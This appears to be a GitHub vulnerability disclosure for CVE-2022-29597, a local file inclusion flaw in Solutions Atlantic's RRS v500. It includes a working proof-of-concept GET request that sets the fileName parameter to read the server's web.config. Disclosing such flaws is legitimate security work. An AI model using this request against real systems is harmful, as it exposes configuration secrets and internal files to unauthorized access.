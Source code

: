 # CVE-2022-29597: Local File Inclusion in RSS v500

The [RRS](https://solutions-atlantic.com/regulatory-reporting-system/) v500 application by Solutions Atlantic is vulnerable to a Local File Inclusion (LFI) vulnerability. Any authenticated user has the ability to reference internal system files within requests made to the `/RRSWeb/maint/ShowDocument/ShowDocument.aspx` page. The server will successfully respond with the file contents of the internal system file requested. This ability could allow for adversaries to extract sensitive data and/or files from the underlying file system, gain knowledge about the internal workings of the system, or access source code of the application.

Mitre URL: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-29597

NIST URL: https://nvd.nist.gov/vuln/detail/CVE-2022-29597

## Proof of Concept (POC):

### Show Document Functionality:

**Affected URL:** 

- `/RRSWeb/maint/ShowDocument/ShowDocument.aspx`

While opening or downloading a PDF from the RRS site, a request is made to the affected URL that includes a `fileName` parameter. This parameter could be modified to include an internal system path, such as `web.config`. The server will then serve the file requested. 

**GET request with internal path to web.config:**

```http
GET /RRSWeb/maint/ShowDocument/ShowDocument.aspx?fileName=C:\\Program%20Files\\Solutions%20Atlantic\\RRS\\RRSWeb\\web.config HTTP/1.1
Host: <REDACTED>
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://<REDACTED>/RRSweb/default.aspx
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: _ga=<REDACTED>; ASP.NET_SessionId=<REDACTED>
Connection: Keep-Alive


```

Server Response:

![RRS_LFI_web.config](https://raw.githubusercontent.com/TheGetch/CVE-2022-XXXXX-LFI/main/RRS_LFI_web.config.png)


## Discovery
April 2022
- Eric Getchell - TheGetch

